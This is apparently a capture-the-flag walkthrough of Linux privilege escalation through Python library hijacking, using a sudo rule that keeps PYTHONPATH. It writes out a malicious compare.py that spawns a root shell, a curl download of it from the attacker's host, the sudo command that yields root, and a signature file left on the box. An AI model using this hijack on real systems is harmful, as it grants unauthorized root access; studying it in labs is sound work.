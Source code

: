 1) I see the list of sudo privilege:
```
wes@ubuntu-xenial:/$ sudo -l
sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
wes@ubuntu-xenial:/$ 
```

2) I see the file "test_module.py":
```
wes@ubuntu-xenial:/opt/development$ cat /opt/development/test_module.py
cat /opt/development/test_module.py
```
```python
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

3) I search the file "compare.py":
```
wes@ubuntu-xenial:/opt/development$ find / -type f 2>/dev/null | grep compare.py
<lopment$ find / -type f 2>/dev/null | grep compare.py                       
/usr/lib/python3.5/compare.py
/usr/lib/python2.7/dist-packages/lxml/doctestcompare.pyc
/usr/lib/python2.7/dist-packages/lxml/doctestcompare.py
wes@ubuntu-xenial:/opt/development$ 
```

4) `env_keep+=PYTHONPATH` maybe we can exploit this? We can! Consult [this](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) article as I did!  
5) So I moved to `/dev/shm/` as that has lmost guaranteed write access
6) I create in my local machine a file compare.py:
```
┌──(kali㉿kali)-[~]
└─$ nano compare.py         
   
┌──(kali㉿kali)-[~]
└─$ cat compare.py    
```
```python
class compare:

        def Str(self, x, y,):
                import os
                x = str(x)
                y = str(y)

                if x == y:
                        os.system('/bin/bash -p')
                        return True;
                else:
                        return False;

        def Int(self, x, y,):
                x = int(x)
                y = int(y)

                if x == y:
                        return True;
                else:
                        return True;

        def Float(self, x, y,):
                x = float(x)
                y = float(y)

                if x == y:
                        return True;
                else:
                        return False;
```

7) In my local machine in same directory I open a webserver with python:
```
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 8000          
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

8) In the target machine I download the file compare.py:
```
wes@ubuntu-xenial:/dev/shm$ curl http://10.8.21.1:8000/compare.py -O compare.py
curl http://10.8.21.1:8000/compare.py -O compare.py
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   376  100   376    0     0   3827      0 --:--:-- --:--:-- --:--:--  3836
curl: (6) Could not resolve host: compare.py
wes@ubuntu-xenial:/dev/shm$ ls -all
ls -all
total 4
drwxrwxrwt  2 root root   60 Mar 11 19:20 .
drwxr-xr-x 16 root root 3560 Mar 11 18:04 ..
-rw-r--r--  1 wes  wes   376 Mar 11 19:20 compare.py
wes@ubuntu-xenial:/dev/shm$ chmod a=+w+r+x compare.py
chmod a=+w+r+x compare.py
wes@ubuntu-xenial:/dev/shm$ 
```

9) I spawn the root shell:
```
wes@ubuntu-xenial:/dev/shm$ sudo PYTHONPATH=/dev/shm/ /usr/bin/python3 /opt/development/test_module.py
lopment/test_module.pyhm/ /usr/bin/python3 /opt/deve 
root@ubuntu-xenial:/dev/shm# cat /root/root.txt
cat /root/root.txt
JPC{665b7f2e59cf44763e5a7f070b081b0a}

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
root@ubuntu-xenial:/dev/shm# 
```
---
## Patch the machines vulnerabilities

1) I remove the file test_module.py:
```
root@ubuntu-xenial:/dev/shm# rm /opt/development/test_module.py
rm /opt/development/test_module.py
root@ubuntu-xenial:/dev/shm# 
```

2) I leave my signature:
```
root@ubuntu-xenial:/$ touch README.txt
root@ubuntu-xenial:/$ echo 'CyberSpider  has been here, Now I am root :)' > README.txt
root@ubuntu-xenial:/$ cat README.txt
CyberSpider  has been here, Now I am root :)
root@ubuntu-xenial:/$ chmod a=+r-x-w README.txt
root@ubuntu-xenial:/$ ls -all README.txt
-r--r--r-- 1 root root   45 Feb 14 21:46 README.txt
```

